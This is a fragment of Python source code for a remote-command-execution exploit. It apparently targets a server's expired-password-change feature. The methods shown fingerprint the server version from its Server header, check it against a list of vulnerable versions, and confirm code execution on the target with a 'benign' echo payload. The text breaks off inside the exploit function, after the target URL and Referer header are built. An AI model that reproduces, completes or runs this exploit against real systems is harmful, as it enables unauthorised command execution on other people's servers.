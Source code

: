 ```python


	#### Checks ####
	def checkConnect(self):
		target = f"{self.args.ssl}{self.args.target}:{self.args.port}{self.args.basedir}"
		try:
			r = self.session.get(target, timeout=5)
		except requests.exceptions.SSLError:
			self.info("Server is running without SSL. Switching to HTTP")
			self.args.ssl = "http://"
			self.checkConnect()
			return
		except:
			self.fail(f"Failed to connect to {target}")
		if " SSL " in r.content.decode().upper():
			self.info("Server is running in SSL mode. Switching to HTTPS")
			self.args.ssl = "https://"
			self.checkConnect()
			return
		self.success(f"Connected to {target} successfully.")


	def checkVersion(self):
		target = f"{self.args.ssl}{self.args.target}:{self.args.port}{self.args.basedir}"
		r = self.session.get(target)
		try:
			version = r.headers["Server"].split("/")[1]
		except:
			self.fail("Couldn't find server version")
		if version not in self.versions:
			self.fail(f"Server version ({version}) not vulnerable.")
		else:
			self.success(f"Server version ({version}) should be vulnerable!")
			if version != self.versions[0]:
				self.warn("Server version relies on expired password changing feature being enabled")


	def checkVulnerable(self):
		target = f"{self.args.ssl}{self.args.target}:{self.args.port}{self.args.basedir}"
		testString = "".join(random.choices(string.ascii_letters + string.digits, k=8))
		check = self.exploitVuln(f"echo {testString}")
		if testString in check:
			self.success("Benign Payload executed!")
		elif "Password changing is not enabled" in check:
			self.fail("Password changing is disabled for this server")
		else:
			self.fail("Benign Payload failed to execute")

	def runChecks(self):
		self.checkConnect()
		self.checkVersion()
		self.checkVulnerable()

	#### Exploit ####
	def exploitVuln(self, command):
		slash = lambda: "/" if (self.args.basedir[-1] != "/") else ""
		target = f"{self.args.ssl}{self.args.target}:{self.args.port}{self.args.basedir}{slash()}{self.endpoint}"
		token = "".join(random.choices(string.ascii_letters + string.digits, k=8))
		headers = {
			"Referer":f"{self.args.ssl}{self.args.target}:{self.args.port}{self.args.basedir}"
		}
```